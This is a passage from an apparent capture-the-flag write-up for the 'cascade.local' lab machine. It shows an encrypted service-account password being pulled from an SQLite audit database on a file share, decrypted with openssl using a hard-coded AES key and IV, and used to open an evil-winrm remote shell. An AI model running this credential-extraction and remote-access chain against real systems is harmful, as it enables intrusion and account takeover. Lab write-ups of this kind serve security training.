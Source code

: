 Here we see the following code snippet:
```c#
Aes aes = Aes.Create();
aes.KeySize = 128;
aes.BlockSize = 128;
aes.IV = Encoding.UTF8.GetBytes("1tdyjCbY1Ix49842");
aes.Mode = CipherMode.CBC;
```

We also need a password to decrypt, downloading the `Audit.db` from the `Audit$` share we are presented with:

```bash
sqlite3 Audit.db

SQLite version 3.46.0 2024-05-23 13:25:27
Enter ".help" for usage hints.
sqlite> .tables
DeletedUserAudit  Ldap              Misc            
sqlite> select * from Ldap;
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
sqlite>
```

This can be done in CyberChef or the bash. Let's do this in bash...

```bash
echo "BQO5l5Kj9MdErXx6Q6AGOw==" | base64 -d | openssl aes-128-cbc -d -K "$(echo -n 'c4scadek3y654321' | xxd -p)" -iv "$(echo -n '1tdyjCbY1Ix49842' | xxd -p)"

w3lc0meFr31nd
```

That's ugly (but great) in essence decode the base64 and send it into `openssl`. The `openssl` command is a general decrypt for AES-128-CBC. Both the `-K` and `-iv` flags have a command substitution that takes the keys and iv and turns them into bytes that `openssl` expects.

## Administrator
As before let's check the credentials.

Testing these credentials to ensure they are valid:

```bash
evil-winrm -i $target -u Arksvc -p w3lc0meFr31nd
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami
cascade\arksvc
*Evil-WinRM* PS C:\Users\arksvc\Documents>
```
